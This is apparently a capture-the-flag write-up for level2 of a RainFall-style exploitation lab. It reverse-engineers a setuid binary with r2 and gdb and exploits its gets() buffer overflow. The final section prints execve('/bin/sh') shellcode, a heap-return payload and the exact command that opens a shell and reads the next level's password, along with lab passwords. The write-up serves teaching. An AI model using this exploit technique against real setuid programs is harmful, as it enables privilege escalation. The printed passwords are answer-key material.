


# Level 2

## Setup
We find a binary file at the root of the user **`level2`** named *`./level2`*.

To analyze the binary file we copy it to our own environment with `scp` *(OpenSSH secure file copy)*.
```bash
scp -r -P 4243 level2@localhost:/home/user/level2/level2 .
```

### Radare2

I am running `r2` inside docker.
```bash
docker run -it -v "$bin_file_path":/mnt/binary radare/radare2 bash -c "sudo /snap/radare2/current/bin/r2 /mnt/binary"
```

## Binary Analysis

On the `r2` prompt we need to run a couple of commands to analyze the `main` function.
```bash
[0x08048de8]> aaa # Analyze the binary
...
[0x08048ec0]> V # Enter visual mode
```

<p align="center">
   
</p>

### Code with addresses
```assembly
0x080484D4 ; =============== S U B R O U T I N E =======================================
0x080484D4
0x080484D4 ; Attributes: bp-based frame
0x080484D4
0x080484D4 ; int p()
0x080484D4                 public p
0x080484D4 p               proc near               ; CODE XREF: main+6↓p
0x080484D4
0x080484D4 var_4C          = byte ptr -4Ch
0x080484D4 var_C           = dword ptr -0Ch
0x080484D4
0x080484D4 ; __unwind {
0x080484D4                 push    ebp
0x080484D5                 mov     ebp, esp
0x080484D7                 sub     esp, 68h
0x080484DA                 mov     eax, ds:stdout@@GLIBC_2_0
0x080484DF                 mov     [esp], eax
0x080484E2                 call    _fflush
0x080484E7                 lea     eax, [ebp+var_4C]
0x080484EA                 mov     [esp], eax
0x080484ED                 call    _gets
0x080484F2                 mov     eax, [ebp+4]
0x080484F5                 mov     [ebp+var_C], eax
0x080484F8                 mov     eax, [ebp+var_C]
0x080484FB                 and     eax, 0B0000000h
0x08048500                 cmp     eax, 0B0000000h
0x08048505                 jnz     short loc_8048527
0x08048507                 mov     eax, offset aP  ; "(%p)\n"
0x0804850C                 mov     edx, [ebp+var_C]
0x0804850F                 mov     [esp+4], edx
0x08048513                 mov     [esp], eax
0x08048516                 call    _printf
0x0804851B                 mov     dword ptr [esp], 1
0x08048522                 call    __exit
0x08048527
0x08048527 loc_8048527:                            ; CODE XREF: p+31↑j
0x08048527                 lea     eax, [ebp+var_4C]
0x0804852A                 mov     [esp], eax
0x0804852D                 call    _puts
0x08048532                 lea     eax, [ebp+var_4C]
0x08048535                 mov     [esp], eax
0x08048538                 call    _strdup
0x0804853D                 leave
0x0804853E                 retn
0x0804853E ; } // starts at 80484D4
0x0804853E p               endp
0x0804853E
0x0804853F
0x0804853F ; =============== S U B R O U T I N E =======================================
0x0804853F
0x0804853F ; Attributes: bp-based frame fuzzy-sp
0x0804853F
0x0804853F ; int __cdecl main(int argc, const char **argv, const char **envp)
0x0804853F                 public main
0x0804853F main            proc near               ; DATA XREF: _start+17↑o
0x0804853F
0x0804853F argc            = dword ptr  8
0x0804853F argv            = dword ptr  0Ch
0x0804853F envp            = dword ptr  10h
0x0804853F
0x0804853F ; __unwind {
0x0804853F                 push    ebp
0x08048540                 mov     ebp, esp
0x08048542                 and     esp, 0FFFFFFF0h
0x08048545                 call    p
0x0804854A                 leave
0x0804854B                 retn
0x0804854B ; } // starts at 804853F
0x0804854B main            endp
0x0804854B
```

### Source

The equivalent program in C would be:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


// ebp + 4 = return address , EIP next instruction to execute
int p()
{
  char buffer[64]; // ebp+0x4C - ebp+0xC
  int arg;
  int eax;
  int edx;

  fflush(stdout);   // Flush stdout buffer
  gets(buffer);     // Again, possible buffer overflow
  memcpy(eax, &buffer[80], 4);  // Copy EIP (return address) from buffer[80] to eax
  arg = &buffer[64];  // Set arg to point to the end of buffer
  memcpy(arg, eax, 4);  // Copy 4 bytes from eax to arg
  memcpy(eax, arg, 4);  // Copy 4 bytes from arg to eax
  
  if ( (eax & 0xB0000000) == 0xB0000000 )
  {
    printf("(%p)\n", arg);
    exit(1);
  }
  puts(buffer);
  return (strdup(buffer));
}

int main(int argc, const char **argv, const char **envp)
{
  return (p());
}
```

We can see that we have, again in the code, the `gets()` function, which is an open way for a *buffer overflow*. But it seems to allow us only to decide if we use `printf` and `exit` or `puts` and `strdup`.


### Permissions
As we can see in the permissions of the executable file, the binary `./level2` is executed with the privileges of the user **level3**, the owner of the file.
```bash
level2@RainFall:~$ ls -l level2 
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
```

## Reverse Engineer

Our input captured by the `gets` function call, is on the `EAX` register (at the address `0xbffff5fc`), we can see it if we set a `breakpoint` after the `gets` call on `0x080484F2`.
Then the `EAX` register gets overwritten by `EBP + 4` with the instruction `mov eax, [ebp+4]`. 
Inside `EBP + 4` (at the address `0xbffff64c`) is the `main`'s `return` address (`0x0804854A`).

<p align="center">
   
</p>

```bash
(gdb) set disassembly-flavor intel
(gdb) disassemble p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
(gdb) break *0x080484f2                       # After gets()
Breakpoint 1 at 0x80484f2
(gdb) run
Starting program: /home/user/level2/level2 
Hello this is the buffer :)

Breakpoint 1, 0x080484f2 in p ()
(gdb) x/s $eax
0xbffff5fc:	 "Hello this is the buffer :)"   # 0xbffff5fc
(gdb) x/wx $ebp+4
0xbffff64c:	0x0804854a                       # 0xbffff64c (0x0804854A is main's return address)
(gdb) info frame
Stack level 0, frame at 0xbffff650:
 eip = 0x80484f2 in p; saved eip 0x804854a
 called by frame at 0xbffff660
 Arglist at 0xbffff648, args: 
 Locals at 0xbffff648, Previous frame's sp is 0xbffff650
 Saved registers:
  ebp at 0xbffff648, eip at 0xbffff64c       # eip = ebp + 4
```

That is the value that will be used in the condition `(eax & 0xB0000000)` to determine the flow of the input. Which is a condition that makes sure we dont overwrite the `return` *address* to an *address* on the stack, so we cannot inject *shellcode* on the **stack**. But maybe we could on the **heap**.

The difference between `EBP+4` - `EAX` = **80 bytes**. 
So with that in mind, we could access the part of the code where `printf` is with a payload like this:


```bash
printf "%-80sAAA\xB0\n" | tr ' ' 'a' | ./level2
```

When we login, we see a message saying that *ASLR* is off:
```bash
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
```
This can be useful to us if we want to try to inject *shellcode* on the heap, because the memory location where `strdup` allocates never changes (`0x0804a008`).

We can find *shellcodes* from [shell-storm](https://shell-storm.org/shellcode/index.html), [exploit-db](https://www.exploit-db.com/) or even github.

The one I will be using is an [execve ("/bin/sh")](https://shell-storm.org/shellcode/files/shellcode-752.html) of 21 bytes.
```assembly
 xor ecx, ecx
 mul ecx
 push ecx
 push 0x68732f2f   ;; hs//
 push 0x6e69622f   ;; nib/
 mov ebx, esp
 mov al, 11
 int 0x80
```
Translated to:

```
char code[] = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f"
              "\x73\x68\x68\x2f\x62\x69\x6e\x89"
              "\xe3\xb0\x0b\xcd\x80";
```

With this we can prepare our payload. To be able to execute the payload we have to write the instructions (*shellcode*) on the **heap** and tell the program to execute that.

We can achieve this by replacing the main's `return` address by the memory location where `strdup` writes, that way the input from the `gets` function is allocated on the **heap** thanks to `strdup` and we can execute it by telling the program that the next instruction on the EIP (instead of the `return`) is on the address `0x0804a008`.

We will have this format: *shellcode* + padding + *heap address*.

This will be the payload for our binary.
```bash
"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80%-59s\x08\xa0\x04\x08\n"
```

### Solution

Connect with `ssh -p 4243 level2@localhost`
Enter the password `53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`

We can execute the buffer overflow with this line. Of course, because we are running a shell through a pipe, we can keep the `stdin` open like the same trick from the last level:
```bash
$ (printf "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80%-59s\x08\xa0\x04\x08\n" ; cat) | ./level2 
1���Qh//shh/bin��

cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```